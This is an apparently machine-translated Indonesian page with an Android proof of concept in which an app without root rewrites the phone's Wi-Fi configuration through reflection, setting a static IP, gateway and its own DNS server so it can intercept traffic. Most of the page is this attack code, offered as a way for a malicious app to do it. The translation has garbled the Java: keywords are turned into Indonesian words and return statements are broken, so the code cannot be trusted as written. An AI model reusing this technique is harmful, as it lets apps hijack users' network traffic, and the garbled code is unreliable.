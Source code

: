 Android MiTM (tanpa root) PoC
Menghadirkan cara cepat & mudah bagi aplikasi untuk melakukan serangan man-in-the-middle pada ponsel tertentu tanpa hak root.

Bagian kode ini menunjukkan bagaimana aplikasi jahat dapat melakukan serangan mitm pada ponsel Anda tanpa hak akses root.

Idenya adalah untuk mengubah server DNS utama perangkat.

Dan pertanyaannya adalah: mengapa aplikasi normal dapat melakukan operasi ini?

Izin yang Dibutuhkan
Agar aplikasi dapat melakukan operasi ini:

android.permission.ACCESS_WIFI_STATE

android.permission.CHANGE_WIFI_STATE

Kode:
Konfigurasi WifiConfigation = null;
WifiManager wm = (WifiManager) getSystemService (Context.WIFI_SERVICE);
WifiInfo ci = wm.getConnectionInfo ();
Daftar <WifiConfiguration> configureNetworks = wm.getConfiguredNetworks ();
for (WifiConfiguration conf: dikonfigurasiNetworks) {
if (conf.networkId == ci.getNetworkId ()) {
config = conf;
istirahat;
}
}

mencoba{
setIPTYPE ("STATIC", config);
setGW (InetAddress.getByName ("8.8.8.8"), config); // server dns google hanya untuk POC, bisa menjadi server DNS milik sendiri
setIP (InetAddress.getByName ("192.168.0.100"), 24, config);
setDNS_Server (InetAddress.getByName ("4.4.4.4"), config);
wm.updateNetwork (config);
wm.saveConfiguration ();
} catch (Exception e) {
e.printStackTrace ();
}

public static void setIPTYPE (String assign, WifiConfiguration wifiConf) melempar SecurityException, IllegalArgumentException, NoSuchFieldException, IllegalAccessException {
setEnumField (wifiConf, assign, "ipAssignment");
}

public static void setIP (InetAddress addr, int prefixLength, WifiConfiguration wifiConf) melempar SecurityException, IllegalArgumentException, NoSuchFieldException, IllegalAccessException,
NoSuchMethodException, ClassNotFoundException, InstantiationException, InvocationTargetException {
Object linkProperties = getField (wifiConf, "linkProperties");
if (linkProperties == null) kembali;
Class laClass = Class.forName ("android.net.LinkAddress");
Constructor laConstructor = laClass.getConstructor (Kelas baru [] {InetAddress.class, int.class});
Object linkAddress = laConstructor.newInstance (addr, prefixLength);

ArrayList mLinkAddresses = (ArrayList) getDeclaredField (linkProperties, "mLinkAddresses");
mLinkAddresses.clear ();
mLinkAddresses.add (linkAddress);
}

public static void setGW (InetAddress gateway, WifiConfiguration wifiConf) melempar SecurityException, IllegalArgumentException, NoSuchFieldException, IllegalAccessException,
ClassNotFoundException, NoSuchMethodException, InstantiationException, InvocationTargetException {
Object linkProperties = getField (wifiConf, "linkProperties");
if (linkProperties == null) kembali;
Class routeInfoClass = Class.forName ("android.net.RouteInfo");
Constructor routeInfoConstructor = routeInfoClass.getConstructor (Kelas baru [] {InetAddress.class});
Object routeInfo = routeInfoConstructor.newInstance (gateway);

ArrayList mRoutes = (ArrayList) getDeclaredField (linkProperties, "mRoutes");
mRoutes.clear ();
mRoutes.add (routeInfo);
}

public static void setDNS_Server (InetAddress dns, WifiConfiguration wifiConf) melempar SecurityException, IllegalArgumentException, NoSuchFieldException, IllegalAccessException {
Object linkProperties = getField (wifiConf, "linkProperties");
if (linkProperties == null) kembali;

ArrayList <InetAddress> mDnses = (ArrayList <InetAddress>) getDeclaredField (linkProperties, "mDnses");
mDnses.clear ();
mDnses.add (dns);
}

public static Object getField (Object obj, String name) melempar SecurityException, NoSuchFieldException, IllegalArgumentException, IllegalAccessException {
Bidang f = obj.getClass (). GetField (nama);
Object out = f.get (obj);
kembali;
}

public static Object getDeclaredField (Object obj, String name) melempar SecurityException, NoSuchFieldException, IllegalArgumentException, IllegalAccessException {
Bidang f = obj.getClass (). GetDeclaredField (nama);
f.setAccessible (true);
Object out = f.get (obj);
kembali;
}


public static void setEnumField (Object obj, Value string, String name) melempar SecurityException, NoSuchFieldException, IllegalArgumentException, IllegalAccessException {
Bidang f = obj.getClass (). GetField (nama);
f.set (obj, Enum.valueOf ((Kelas <Enum>) f.getType (), value));
}

